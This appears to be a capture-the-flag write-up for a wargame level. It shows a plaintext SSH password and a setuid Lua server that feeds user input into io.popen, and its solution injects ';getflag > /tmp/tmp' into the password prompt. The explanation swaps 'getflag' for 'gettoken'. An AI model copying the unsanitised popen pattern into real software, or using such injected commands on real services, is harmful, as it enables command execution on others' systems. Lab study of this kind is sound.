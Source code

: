 # 11

Login

```b
> ssh level11@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: s5cAJpM8ev6XHw998pRWG728z
```

A lua script

```b
> ls -l
-rwsr-sr-x 1 flag11 level11 668 level11.lua

> file level11.lua 
level11.lua: setuid setgid a lua script, ASCII text executable

> cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))
                             🟡 localhost:5151 ^^^^
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
            ^^^^^ 🟡 prone to command injection
  data = prog:read("*all")
  prog:close()
  data = string.sub(data, 1, 40)
  return data
while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end
  client:close()
```
```b
> ltrace ./level11.lua 
ltrace: Can't open ELF file "./level11.lua"

> ./level11.lua 
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?
```

Vulnerability: `io.popen()`
- `popen` opens a shell run an entire command
- var `pass` being concated w/o sanitization make it prone to injection

Solution
```b
> nc localhost 5151
Password: ;getflag > /tmp/tmp
```
Then lua evals it like this:
```b
echo ;gettoken > /tmp/tmp | sha1sum

# `;` halt ends the echo
# `| sha1sum` this part is discarded
# all it does is redir the token to /tmp/tmp
```
